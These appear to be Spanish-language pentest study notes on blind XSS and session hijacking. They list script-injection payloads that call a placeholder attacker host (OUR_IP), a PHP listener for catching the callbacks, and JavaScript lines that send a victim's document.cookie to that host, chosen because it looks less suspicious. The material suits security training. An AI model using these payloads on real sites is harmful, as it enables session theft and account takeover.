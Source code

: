 ```html
<script src="http://OUR_IP/script.js"></script>
```

Para encontrar cuál de los parámetros de un formulario por ejemplo es vulnerable a la inyección, podemos modificar el archivo e ir creando copias con diferentes nombres cada uno realcionado con un campo. 

Por ejemplo:

```html
<script src="http://OUR_IP/username"></script>
```

De esta manera si se recibe una respuesta de este archivo sabremos que el parámetro es el nombre de usuario.

Podemos buscar un payload que funcione y se adapte por ejemplo desde [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss) 

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Antes de comenzar a probar payloads abriremos un puerto de escucha para recibir la respuesta.

```shell-session
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Si nada llama a nuestro servidor, podemos pasar al siguiente payload, y así sucesivamente. Una vez recibida una llamada a nuestro servidor, debemos anotar el último payload que hemos utilizado y anotar el nombre del campo de entrada que ha llamado a nuestro servidor como campo de entrada vulnerable.


### Session hijacking

Requiere un payload de JavaScript para enviarnos los datos necesarios y un script PHP alojado en nuestro servidor para capturar y analizar los datos transmitidos.

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
Utilizaremos la segunda, ya que simplemente añade una imagen a la página, lo que puede no parecer muy malicioso, mientras que la primera navega hasta nuestra página PHP de captura de cookies, lo que puede parecer sospechoso.
